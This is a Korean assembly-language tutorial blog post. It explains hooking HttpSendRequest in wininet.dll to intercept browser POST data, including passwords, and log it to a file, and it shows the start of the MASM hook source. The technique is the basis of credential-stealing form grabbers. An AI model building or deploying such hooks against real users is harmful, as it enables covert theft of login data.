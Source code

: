 ```yaml
---
title: '어셈블리어 튜토리얼 (13) post sniffing'
date: '2017-03-21'
categories:
  - 'code'
  - 'hacking'
tags:
  - 'asm'
  - '어셈블리'
  - 'api-hooking'
  - '리버스-엔지니어링'
  - 'sniffing'
  - '패스워드'
---
```


## 3.6. post sniffing

이번엔 post 값을 중간에서 가로채는 예제를 만들어보겠다. 윈도우 api 중 post 값을 서버에 전송하는 api는 wininet.dll 의 [HttpSendRequest](<https://msdn.microsoft.com/ko-kr/library/windows/desktop/aa384247(v=vs.85).aspx>)가 있다. 이 api를 후킹하면 post값을 가로챌 수 있다.

```c
BOOL HttpSendRequest(
  _In_ HINTERNET hRequest,
  _In_ LPCTSTR   lpszHeaders,
  _In_ DWORD     dwHeadersLength,
  _In_ LPVOID    lpOptional,
  _In_ DWORD     dwOptionalLength
);
```

참고로 익스플로러에서는 동작하지만 크롬 파이어폭스에서는 동작하지 않는다. 익스플로러와 달리 범용프로그램이다보니 윈도우 api를 사용하지 않기 때문일 것이다.

**apihook.asm**

HttpSendRequest를 후킹해서 post값을 log.txt파일에 기록하는 소스이다. 텍스트파일에 기록하는 함수만 추가되었다.

```nasm
.686
.model flat, stdcall
option casemap:none

include c:\masm32\include\windows.inc
include c:\masm32\include\user32.inc
include c:\masm32\include\kernel32.inc
include c:\masm32\include\winmm.inc

includelib c:\masm32\lib\user32.lib
includelib c:\masm32\lib\kernel32.lib
includelib c:\masm32\lib\winmm.lib

LogSecurity proto, lpBuffer:dword, bufLen:dword

LoadApiHook proto, lpszDll:dword, lpszProc:dword, lpTossProc:dword, lpTossJMP:dword
GetMsgProc proto, nCode:dword, wParam:dword, lParam:dword

MyHttpSendRequestA proto
MyHttpSendRequestW proto

.data
szWININET       db 'WININET.DLL',0
szHttpSendRequestA  db 'HttpSendRequestA',0
szHttpSendRequestW  db 'HttpSendRequestW',0

```